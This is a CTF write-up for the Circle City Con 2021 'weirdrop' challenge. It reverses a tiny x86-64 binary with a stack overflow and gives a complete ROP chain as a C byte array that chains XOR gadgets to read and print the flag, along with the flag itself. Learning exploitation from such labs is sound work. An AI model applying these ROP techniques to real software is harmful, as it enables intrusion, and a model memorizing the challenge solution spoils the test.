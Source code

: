## weirdrop (Circle City Con 2021)

Didn't participate in the ctf, but I noticed that there is no writeup for this
challenge, so I decided to address that. :D


## Exploitable Service

We get an exploitable service binary.

```bash
[joey@gibson] file weird-rop
weird-rop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, BuildID[sha1]=2876651ce7257d4153ee90b05f0b1a2b29f25700, not stripped
```
Neato! The service is a 64-bit ELF. Looks like the binary is statically
compiled and not stripped making reversing and exploitation much easier for us.


## Reversing

Turns out there isn't much to reverse! This is a very lightweight binary,
written in assembly. Here's the program entry:

```
┌ 21: entry0 ();
│           0x00401154      e887ffffff     call loc.vuln
│           0x00401159      48c7c03c0000.  mov rax, 0x3c
│           0x00401160      48c7c7000000.  mov rdi, 0
└           0x00401167      0f05           syscall
```
So far so good - the program calls `vuln()` then calls the `exit` system call
with return code `0`. If you are looking for an easy reference for the ABI
[bookmark
this](https://chromium.googlesource.com/chromiumos/docs/+/master/constants/syscalls.md).
Or if you're feeling masochistic you can rummage around in `/usr/include`.

Let's take a look at `vuln()`:
```
│           0x004010e0      55             push rbp
│           0x004010e1      4889e5         mov rbp, rsp
│           0x004010e4      4883ec10       sub rsp, 0x10
│           0x004010e8      48c7c0020000.  mov rax, 2
│           0x004010ef      488d3c250020.  lea rdi, loc.flag ; 0x402000 ; "/flag.txt"
│           0x004010f7      48c7c6020000.  mov rsi, 2
│           0x004010fe      48c7c2000000.  mov rdx, 0
│           0x00401105      0f05           syscall
```
So far we got `open("/flag.txt", O_RDWR)`. Note that this binary isn't actually
using libc, I'm just using libc functions to make it easier to look at. For
flags like `O_RDWR` look in `/usr/include` (e.g.
`/usr/include/asm-generic/fcntl.h`).

```
│           0x00401107      4883c030       add rax, 0x30
│           0x0040110b      880424         mov byte [rsp], al
│           0x0040110e      c64424010a     mov byte [var_1h], 0xa
│           0x00401113      48c7c0010000.  mov rax, 1
│           0x0040111a      48c7c7010000.  mov rdi, 1
│           0x00401121      4889e6         mov rsi, rsp
│           0x00401124      48c7c2020000.  mov rdx, 2
│           0x0040112b      0f05           syscall
```

At this point the `rax` register holds the file descriptor returned by the
`open` syscall. The program adds `0x30` to the file descriptor, which is a
low-tech way of turning a digit into its ASCII representation (`0x30`
represents zero and so on). We store this value on the stack and append `\n` to
it. The program then outputs this number to the stdout: `write(STDOUT_FILENO,
stack_pointer, 2);`

```
│           0x0040112d      48c7c0000000.  mov rax, 0
│           0x00401134      48c7c7000000.  mov rdi, 0
│           0x0040113b      4889e6         mov rsi, rsp
│           0x0040113e      48c7c2c80000.  mov rdx, 0xc8
│           0x00401145      0f05           syscall
│           0x00401147      48c7c7000000.  mov rdi, 0
│           0x0040114e      4883c410       add rsp, 0x10
│           0x00401152      5d             pop rbp
└           0x00401153      c3             ret
```
Boils down to this:
`read(STDOUT_FILENO, stack_ptr, 200);`

The final chunk of this function reads `0xc8` bytes on the stack, nulls out
the `rdi` register, does some final cleanup, and returns. Obviously this is the
vulnerability - we can overwrite the return address on the stack and gain
control of the program counter.

## Yucky Gadgets

Okay so.. what's the problem? Just hunt for some useful gadgets and get that
easy 300 points right? Let's take a look at some of the gadgets:

```
  0x00401000                 5e  pop rsi
  0x00401001                 c3  ret

  0x00401002     48c7c000000000  mov rax, 0
  0x00401009                 c3  ret
```

Cool cool.

```
  0x0040100a     48c7c001000000  mov rax, 1
  0x00401011                 c3  ret

  0x004010db               0f05  syscall
  0x004010dd                 c3  ret
```

Nice!

```
  0x0040109b     4881f7cd030000  xor rdi, 0x3cd
  0x004010a2                 c3  ret

  0x004010d3     4881f79a020000  xor rdi, 0x29a
  0x004010da                 c3  ret
```
... okay?

```
  0x004010cb     4881f7a3010000  xor rdi, 0x1a3
  0x004010d2                 c3  ret

  0x004010c3     4881f798010000  xor rdi, 0x198
  0x004010ca                 c3  ret
```

26 (if I counted correctly) `xor rdi` gadgets?! Gross.

## Exploitation Plan

The exploitation path I chose was to take advantage of the open file
descriptor, telegraphed to us by the service, to read the contents of the flag
file and then simply write it to standard output.

Most gadgets are already obvious - we can load `1` and `0` into `rax`
for `write` and `read` system cals respectively. We even have a gadget to load
`1` into `rdi` for the standard output file descriptor.

However we still need to put the flag file descriptor in `rdi` and there is no
clear gadget candidate for this. Time for some XOR math!

I don't know about you, but I'm pretty lazy, so I'm just going to write a Python
script to bruteforce the XOR gadgets we need. (Note that since the `rdi`
register is nulled out, the first XOR gadget will just put the immediate value
into the register). I can permute over every possible combination of XOR gadgets
and break when I get the value I want. `permute.py` is the script that I wrote
for this task. Take a look - nothing fancy here.

The file descriptor is always `5`, so we can just run `permute.py` once to
figure out the gadgets we need. (I think the challenge would be more interesting
if the file descriptor was somewhat random, so that we would have to
dynamically determine which gadgets we need to use).

```
[joey@gibson]$ ./permute.py 5
0x56 0x53
```
Great - so the xor gadgets that use these two operands is what we need. We
should have all of the key elements of our exploit. This is the ROP chain I
came up with:

```C
#define EXPLOIT_LEN     0xc8

uint8_t exploit[EXPLOIT_LEN] = {
    0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, // it's in your head!
    0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, // it's in your head!
    0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, 0xAA, // filler!
    0x7c, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // xor rdi, 0x53
    0x1a, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // xor rdi, 0x56
    0xde, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // pop rdx
    0x19, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // length value
    0x02, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rax, 0x0
    0xdb, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // syscall
    0x0a, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rax, 0x1
    0x12, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // mov rdi, 0x1
    0xdb, 0x10, 0x40, 0x00, 0x00, 0x00, 0x00, 0x00, // syscall
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
//  ...
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
    0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
};
```

First 24 bytes is the filler for the stack - recall that the function subtracts
`0x10` from the stack pointer and pops a register. We covered what is going on
with the first two gadgets. The next gadget pops `0x19` into `rdx`, which is
the length of our read. Finally we shove the `read` syscall number into `rax`
and call it. Then we simply use the gadgets to load the `write` syscall number
and place stdout file decriptor (`1`) as its first argument (the other two
arguments in registers `rsi` and `rdx` remain the same). That's it!

Let's see it in action:

```bash
[joey@gibson]$ ./exploit
CCC{math_is_hard_1234897}
```
